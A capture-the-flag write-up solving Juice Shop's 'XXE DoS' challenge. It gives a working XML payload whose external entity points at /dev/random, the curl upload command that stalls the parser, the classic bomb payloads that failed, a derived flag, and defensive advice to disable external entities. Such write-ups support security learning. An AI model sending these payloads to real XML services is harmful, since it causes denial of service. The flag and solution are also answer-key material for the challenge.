

# XXE DoS

**Platform:** PCGCTF · **Challenge ID:** 214 · **Category:** XXE · **Points:** 1,000

**Status:** Solved locally and accepted by CTFd.

## The challenge

Keep the Juice Shop XML parser busy for more than two seconds. The source catches the
timeout message and calls `challengeUtils.solve(challenges.xxeDosChallenge)`, so the
target is a parser denial-of-service rather than a file read.

## Reconnaissance

This uses the same unauthenticated endpoint as **XXE Data Access**:

```text
POST /file-upload
```

The XML handler in `build/routes/fileUpload.js` parses the uploaded document inside a
`node:vm` with a 2-second timeout, and the *only* thing that solves this challenge is
that timeout firing:

```js
const xmlString = await parseXmlString(data)          // runs in vm { timeout: 2000 }
...
} catch (err) {
  if (errorMessage.includes('Script execution timed out')) {
    solve(challenges.xxeDosChallenge)                 // <-- the only solve path
    res.status(503)
  }
}
```

`build/lib/xml.js` parses with `XML_PARSE_NOENT | XML_PARSE_DTDLOAD` and grants the
WASM sandbox host-filesystem access, so external entities are resolved from disk. The
key realisation: I don't need an entity-expansion bomb — I need the parse to **block**
for two seconds. An external entity pointed at a never-ending device does exactly that.

## Exploit — external entity to `/dev/random`

`files/dev-random-xxe.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE complaint [<!ENTITY xxe SYSTEM "file:///dev/random">]>
<complaint>&xxe;</complaint>
```

Reading `/dev/random` never reaches EOF, so `XML_PARSE_NOENT` substitution blocks until
the vm's 2-second watchdog fires `Script execution timed out`:

```bash
cd /home/nightingale/CTF/PCGCTF/unsolved/xxe/214-xxe-dos
curl -s -o /dev/null -w 'elapsed: %{time_total}s  HTTP %{http_code}\n' \
  -F 'file=@files/dev-random-xxe.xml;type=text/xml' localhost:3000/file-upload
```

```text
elapsed: 2.005605s  HTTP 503
```

The ~2.0 s wall-clock time is the timeout, and the 503 is the branch that solves the
challenge. The local challenge state confirms it:

```bash
curl -s localhost:3000/api/Challenges/ | jq '.data[] | select(.id==92) | {name,solved}'
```

```text
{ "name": "XXE DoS", "solved": true }
```

## Why the "classic" payloads do **not** work here

It is worth recording the dead ends, because they are the first things most people
reach for and this image rejects every one of them *before* the timeout — which is why
an earlier pass wrongly concluded the challenge could not be reproduced locally.

| Payload | Result on this image |
|---|---|
| Billion laughs (10 nested entities, `&lol9;`) | `Maximum entity amplification factor exceeded, see xmlCtxtSetMaxAmplification.` |
| Quadratic blowup (long `SYSTEM` id + many refs) | `Resource limit exceeded: URI too long` |
| 190 KB external-DTD alias variant | reached ~2.8 s of work but the amplification guard aborted it before the vm timeout fired |

The shipped `libxml2-wasm` (libxml2 2.14) has amplification and resource guards that
kill expansion bombs quickly, so none of them ever reaches the 2-second VM timeout. The
guards only watch *expansion* — they do not bound a single **blocking read**, which is
why `file:///dev/random` succeeds where every amplification trick fails.

## Flag

Juice Shop in `NODE_ENV=ctf` derives flags as `HMAC-SHA1(CTF_KEY, challenge name)`. The
exact name is `XXE DoS`, and the compose file supplies the shared key:

```bash
./evidence/derive_flag.py 'XXE DoS'
```

```text
pcgCTF{47a21cc2b293f6dfaf7432bb827ab999cfcbfcd4}
```

CTFd accepted the flag on the first submission:

```json
{"success": true, "data": {"status": "correct", "message": "Correct"}}
```

## Screenshot



## Takeaway

A DoS parser challenge is not always an amplification bomb. When the solve condition is
"make the parse exceed a wall-clock timeout," the most reliable lever against a modern,
amplification-guarded parser is a **blocking external entity** (`/dev/random`,
`/dev/zero`, a slow network URL) rather than exponential entity expansion. Defence is
the same as for file disclosure: disable external entities and DTD loading entirely
before parsing untrusted XML — the amplification guard alone is not sufficient.

## Reference

- `build/routes/fileUpload.js` → `handleXmlUpload` (timeout → `xxeDosChallenge`)
- `build/lib/xml.js` (`XML_PARSE_NOENT | XML_PARSE_DTDLOAD`, 2 s vm timeout)
- [Original challenge description](../../challenges/solved/xxe/214-xxe-dos/README.md)
- Related: [XXE Data Access](213-xxe-data-access.md)
